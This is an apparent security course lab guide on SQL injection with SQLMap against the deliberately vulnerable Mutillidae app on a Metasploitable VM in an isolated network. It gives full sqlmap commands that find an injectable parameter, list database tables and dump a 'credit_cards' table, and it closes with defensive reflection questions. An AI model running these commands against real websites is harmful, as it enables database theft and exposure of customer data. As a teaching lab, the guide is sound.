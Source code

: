 = SQL Injection with SQLMap

== Prerequisites

* Kali VM installed
* Metasploitable VM installed

== VM Configuration

Ensure that the Kali VM is configured properly.

* In VirtualBox, ensure that the network adapter is set to `internal network`.
* Give it the IP address `192.168.2.50`
+
```
ifconfig eth0 192.168.2.50
```

Ensure that the Metasploitable VM is configured properly.

* In VirtualBox, ensure that the network adapter is set to `internal network`.
* Give it the IP address `192.168.2.100`.
+
```
sudo ifconfig eth0 192.168.2.100
```
+
Enter `msfadmin` as the password when prompted.

Ensure that you can ping between the two virtual machines before proceeding.

== Configuring Metasploitable

The Mutillidae website must be configured to point to the OWASP 10 database. To change the configuration, run the following commands from the Metasploitable terminal.

```
cd /var/www/mutillidae
sudo nano config.inc
```

Change the database name to `osasp10` and save the file.

image::config-inc-password-change.png[]

== Using SQLMap to Verify SQL Injection Vulnerabilities

The remainder of the instructions will be done in your Kali VM.

Open Iceweasel and to go the page http://192.168.2.100/mutillidae/index.php?page=view-someones-blog.php. Note that the page has a dropdown where an author can be selected. Even though the dropdown does not allow free text to be entered, it still contains values that will be sent to the database. Because the page accepts user input that is likely sent to a database, it is potentially vulnerable to SQL injection. Typically, you would do an investigation to determine whether a variable might be vulnerable to SQL injection. For example, you might use the Burp Suite to analyze and requests sent to the server. For now, assume that the investigation has been done and the author variable has been determine to be a potentially exploitable variable.

SQLMap comes installed in Kali by default. Run the following command (copy and paste as needed):

```
sqlmap -u "http://192.168.2.100/mutillidae/index.php?page=view-someones-blog.php" --data="author=admin&view-someones-blog-php-submit-button=View+Blog+Entries"
```

* The `-u` parameter just passes a URL.
* The `--data` parameter has additional HTTP variables with their values.

Notice that SQLMap finds variables that are potentially vulnerable.

image::sqlmap-output-1.png[]

SQLMap correctly identifies the database as a MySQL database, so enter `y` to skip the other tests.

After further tests, SQLMap finds a vulnerability.

image::sqlmap-output-2.png[]

Press `n` to skip testing the other variables.

== Using SQLMap to Exploit Vulnerabilities

Once a vulnerability has been found, it can be exploited. Append `-D owasp10 --tables` to the previous command and run it. The full command will be:

```
sqlmap -u "http://192.168.2.100/mutillidae/index.php?page=view-someones-blog.php" --data="author=admin&view-someones-blog-php-submit-button=View+Blog+Entries" -D owasp10 --tables
```

* The `-D` command specifies the database that should be accessed.
* The `--tables` parameter tells SQL map to output all of the tables in the database.

You should see a list of all of the tables in the database. This is definitely information that a website developer would not want expose to the public.

image::sqlmap-output-tables.png[]

Interestingly, there is a `credit_cards` table. Run the following command to view the data in that table.

```
sqlmap -u "http://192.168.2.100/mutillidae/index.php?page=view-someones-blog.php" --data="author=admin&view-someones-blog-php-submit-button=View+Blog+Entries" -D owasp10 -T credit_cards --dump
```

* The `-T` parameter specifies a database table to access.
* The `--dump` parameter outputs the data to the terminal.

image::credit-cards.png[]

== Challenge

* Use the Burp Suite to find other potential vulnerabilities on the Mutillidae website. Verify the vulnerabilities using SQLMap.

== Reflection

* From a defense in depth perspective, how could these attacks have been prevented?
* How would you use SQLMap when assessing a very large website with a lot of functionality?
